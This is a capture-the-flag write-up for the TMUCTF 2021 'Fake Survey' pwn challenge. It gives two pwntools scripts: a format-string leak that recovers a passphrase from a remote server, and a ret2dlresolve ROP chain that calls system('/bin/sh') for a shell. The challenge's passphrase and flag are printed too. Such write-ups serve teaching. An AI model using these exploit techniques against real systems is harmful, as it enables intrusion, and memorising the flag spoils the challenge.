

# Challenge Description
<p align="center">
  
</p>
<br>

# Writeup
This challenge has two steps. In the first step we have to use `format string` vulnerability to leak the needed passPhrase. In second step we can use `return ro dl_reslove` technique.   
Here is the script used for the first step (also available in [solve_step1.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step1.py)):    
```python
import pwn
import time

i = 1
a = []
while i != 15:
    r = pwn.remote("185.235.41.205", 7050)
    r.recvlines(20)
    p = "%" + str(i) + "$p"
    r.sendline(p.encode())
    user_pass = r.recvlines(2)[1].decode().split(" ")[-1]
    print(user_pass)
    a.append(user_pass)
    i += 1

passphrase = []
for k in a:
    try:
        passphrase.append(pwn.p32(int(k, 16)).decode("latin-1"))
    except Exception as e:
        pass

print("".join(passphrase))
```   
And for `return to dl_resove` I used `Ret2dlresolvePayload` class of `pwntools`. Here is its script (also available in [solve_step2.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step2.py)):  
```python
from pwn import *

context.binary = elf = ELF('./fakesurvey')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

p = remote("185.235.41.205", 7050)
p.sendline("CPRSyRMOFa3FVIF".encode())
p.sendline(fit({64 + context.bytes * 3: raw_rop, 200: dlresolve.payload}))
p.interactive()
```   
The flag:   
```
TMUCTF{m4yb3_y0u_u53d_7h3_574ck_4nd_r37urn3d_70_dl_r350lv3}
```  
